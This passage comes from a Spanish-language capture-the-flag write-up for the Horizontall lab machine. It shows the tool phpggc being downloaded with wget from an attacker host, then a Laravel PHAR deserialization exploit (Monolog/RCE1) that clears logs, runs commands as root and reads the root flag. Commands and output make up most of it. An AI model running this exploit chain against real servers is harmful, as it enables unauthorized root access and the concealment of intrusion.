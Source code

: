 Para facilitar la transferencia de la herramienta phpggc a la máquina, empaqueté todo el directorio phpggc en un archivo tar. 
```bash
❯ tar cvf phpggc.tar phpggc
```

Para transferir la herramienta phpggc a la máquina objetivo descargué el archivo comprimido usando wget. 
```bash
strapi@horizontall:/tmp$ wget http://10.10.16.4:9090/phpggc.tar
--2025-07-01 16:10:50--  http://10.10.16.4:9090/phpggc.tar
Connecting to 10.10.16.4:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1781760 (1.7M) [application/x-tar]
Saving to: ‘phpggc.tar’

phpggc.tar          100%[===================>]   1.70M   429KB/s    in 5.0s    

2025-07-01 16:10:56 (347 KB/s) - ‘phpggc.tar’ saved [1781760/1781760]
```

Una vez transferido el archivo phpggc.tar al servidor, lo descomprimí en el directorio /tmp.
```bash
strapi@horizontall:/tmp$ tar xvf phpggc.tar
```

Ejecuté el exploit contra el servicio Laravel que escucha en el puerto 8000 mediante el script exploit.py usando el gadget Monolog/RCE1 para ejecutar el comando id. El exploit limpió los logs, generó y desplegó con éxito el payload PHAR, lo que resultó en la ejecución remota de código con privilegios de root, confirmado al obtener el UID 0 en la salida del comando.
```bash
strapi@horizontall:/tmp$ python3 exploit.py http://localhost:8000 Monolog/RCE1 "id"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

### Captura flag root
Finalmente, utilicé el exploit para ejecutar el comando cat /root/root.txt en el servidor a través de la vulnerabilidad de Laravel, logrando obtener la flag de root.
```bash
strapi@horizontall:/tmp$ python3 exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs 
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

3b28e56bc2af90466e1e9848dd075b3c

[i] Trying to clear logs
[+] Logs cleared
```
